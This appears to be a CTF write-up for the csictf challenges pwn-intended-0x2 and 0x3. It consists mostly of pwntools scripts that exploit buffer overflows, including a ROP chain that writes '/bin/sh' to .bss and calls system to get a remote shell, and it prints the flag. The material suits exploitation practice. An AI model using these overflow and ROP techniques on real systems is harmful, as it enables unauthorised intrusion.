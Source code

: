 ##### first method
```python
from pwn import * 
elf = ELF("pwn-intended-0x2")
HOST = "chall.csivit.com"
PORT = 30007
r = remote(HOST, PORT)

payload = b"A"*44
payload += p64(0xCAFEBABE)

r.sendlineafter("\n", payload)
r.interactive()
# csictf{c4n_y0u_re4lly_telep0rt?}
```
##### second method
```python
from pwn import *

elf = ELF("pwn-intended-0x2")
rop = ROP(elf)
HOST = "chall.csivit.com"
PORT = 30007
p = remote(HOST, PORT)
offset = 56

POP_RDI = rop.find_gadget(['pop rdi', 'ret'])[0]
bss = 0x4040a0
log.success('pop rdi; ret @ %s' % hex(POP_RDI))
log.info("sending the first payload")
payload = b"A" * 56 + p64(POP_RDI) + p64(bss) + p64(elf.plt['gets']) + p64(elf.sym['main'])
p.recvline()
sleep(1)
p.sendline(payload)
p.sendline("/bin/sh\0")
log.success("done writing /bin/sh")

log.info("sending the second payload")
payload2 = b"A" * offset + p64(POP_RDI) + p64(bss) + p64(elf.plt['system'])
p.sendline(payload2)
p.recvuntil("Welcome to csictf! Where are you headed?\nSafe Journey!\n")
p.interactive()

# FLAG --> csictf{c4n_y0u_re4lly_telep0rt?}
```

### pwn intended 0x3
the same method used to spawn a shell in the previous challenge can be used in this challenge, just change the offset and the address of the .bss

##### first method
```python
from pwn import * 
elf = ELF("pwn-intended-0x3")
HOST = "chall.csivit.com"
PORT = 30013
r = remote(HOST,PORT)

payload = b'AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDD'
payload += p64(0x401128)
payload += p64(0x00000000004011ce)

r.sendlineafter("\n", payload)
r.interactive()
```